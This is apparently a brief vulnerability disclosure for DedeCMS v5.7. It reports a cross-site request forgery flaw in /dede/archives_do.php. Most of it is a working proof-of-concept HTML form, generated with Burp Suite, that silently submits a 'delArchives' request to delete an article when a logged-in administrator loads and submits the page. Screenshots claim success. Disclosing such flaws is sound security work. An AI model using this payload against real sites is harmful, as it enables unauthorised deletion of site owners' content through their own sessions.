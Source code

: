 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/archives_do.php

![1](https://github.com/itsqian797/cms/assets/161734504/7ea328cb-7c30-43a3-9df2-b510dd6cbc63)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/archives_do.php" method="POST">
      <input type="hidden" name="fmdo" value="yes" />
      <input type="hidden" name="dopost" value="delArchives" />
      <input type="hidden" name="qstr" value="20" />
      <input type="hidden" name="aid" value="20" />
      <input type="hidden" name="imageField1&#46;x" value="16" />
      <input type="hidden" name="imageField1&#46;y" value="8" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/itsqian797/cms/assets/161734504/03934eba-9725-45c2-98c1-7da89a35a46a)


Successed

![3](https://github.com/itsqian797/cms/assets/161734504/8fda7894-b5d6-4df0-a998-a2270d932d07)

